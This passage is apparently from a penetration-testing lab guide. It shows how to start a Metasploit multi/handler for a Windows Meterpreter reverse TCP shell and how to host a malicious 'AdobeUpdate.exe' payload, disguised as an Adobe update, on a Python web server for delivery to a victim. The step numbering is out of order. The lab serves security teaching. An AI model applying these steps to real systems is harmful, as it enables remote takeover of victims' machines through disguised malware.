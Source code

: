         <div class='alert alert-info'>This is not actually an Adobe Update! This is our payload, <em>disguised</em>.</div>

6.    Verify that the output file is about 73802 bytes in size. If not, you may need to check that you entered the command correctly and run it again.
10.   Run an `msf` handler to listen for the meterpreter reverse connection which will be incoming
      when our malicious `AdobeUpdate.exe` payload file is executed.

      11.   On Kali, open a new terminal window and enter `msfconsole`.
      11.   Enter `use exploit/multi/handler`.

            Once you’ve switched to this exploit module, type `show info`.
            Note that this module “is a stub that provides all of the features of
            the Metasploit payload system to exploits that have been launched
            outside of the framework.” A stub adds additional functionality to
            other exploits.
      12.   Enter `set PAYLOAD windows/meterpreter/reverse_tcp`.
      13.   Enter `set LHOST virbr1`.
      15.   Enter `exploit -j`.

            <div class='alert alert-info'>
            The <code>-j</code> option jobifies the exploit, or runs it as a job in the background. You can see a list of jobs running in the background by using the command jobs.
            </div>

            <div class='alert alert-info'>
            Because <code>ExitOnSession</code> is set to <code>True</code> (the default for <code>exploit/multi/handler</code>; verify with <code>show advanced</code> from msfconsole), your handler will die after it gets one connection.
            </div>

      The handler is now listening.

7.    Now, we need to set up a way to deliver the payload to the victim.
      We will set up a web server to host your malicious file.

      8.  From a terminal on Kali, change directories to `/tmp`:

          ```bash
          cd /tmp
          ```
      8.  Use `ls` to check that the payload you generated earlier is in this directory.
      9.  Now, from that directory, run the following command to use an http
          webserver built into `python` to serve content from the current directory (`/tmp`)
          on an arbitrary port - `8888`:

          ```bash
          python3 -m http.server 8888
          ```

          **Note:** when you run this command, it will appear that nothing
          happens.  Actually, the web server is running, and it will log output
          to the terminal if it receives any web requests. You can verify this
          by visiting <http://localhost:8888> in a web browser on Kali and
          observing the output logged to the terminal.
